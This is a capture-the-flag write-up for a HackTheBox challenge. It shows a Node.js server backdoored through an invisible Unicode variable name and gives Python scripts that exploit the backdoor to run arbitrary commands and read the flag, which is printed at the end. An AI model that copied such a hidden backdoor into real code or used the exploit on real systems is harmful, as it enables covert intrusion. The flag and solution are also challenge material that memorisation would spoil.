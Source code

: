 # Challenge: Hidden Path (Misc)

## Challenge Overview

**Name:** Hidden Path  
**Category:** Misc  
**Difficulty:** Easy

### Description:

Legends speak of the infamous Kamara-Heto, a black-hat hacker of old. Though their existence is debated, access to the lost vault they protected is only possible through hidden data in a system check-up endpoint. Can you find the path Kamara-Heto left behind?

---

# Challenge Progress: Hidden Path (Misc)

## Recon & Enumeration

### Initial Access

```bash
http://94.237.55.43:57167
````

We are presented with a basic HTML page containing radio buttons to select system commands and a Submit button. The JavaScript submits the selected option to `/server_status`.

---

## Source Code Review

The provided server-side code (`app.js`) reveals two endpoints:

* `/` → serves `index.html`
* `/server_status` → accepts a `POST` request with `choice` index, and executes a command from a hardcoded list.

The interesting detail is in this line:

```javascript
const { choice,ㅤ} = req.body;
```

The character `ㅤ` (Unicode U+3164, HANGUL FILLER) is visually invisible but valid in variable names. That same variable is later appended to the `commands` array:

```javascript
const commands = [
    'free -m',
    'uptime',
    'iostat',
    'mpstat',
    'netstat',
    'ps aux',ㅤ
];
```

This creates a hidden backdoor — if we send a POST parameter with that Unicode character as the key, and use `choice=6`, we can execute **any command**.

---

## Exploitation - Command Injection

### Step 1: Test command execution

```python
from requests import post

URL = 'http://94.237.55.43:57167/server_status'

params = {
    'choice': 6,
    '\u3164': 'ls /'  # List root directory to confirm RCE
}

r = post(URL, data=params)
print(r.text)
```

Output confirmed working command injection.

---

### Step 2: Locate the flag

```python
params = {
    'choice': 6,
    '\u3164': 'find / -iname "flag*" 2>/dev/null'
}
```

Result:

```
/www/flag.txt
```

---

### Step 3: Read the flag

```python
params = {
    'choice': 6,
    '\u3164': 'cat /www/flag.txt'
}
```

---

## Flag

```
HTB{1nvi5IBl3_cH4r4cT3rS_n0t_sO_v1SIbL3_449a2a0521f662b0023ca1217650df58}
```

May god with us~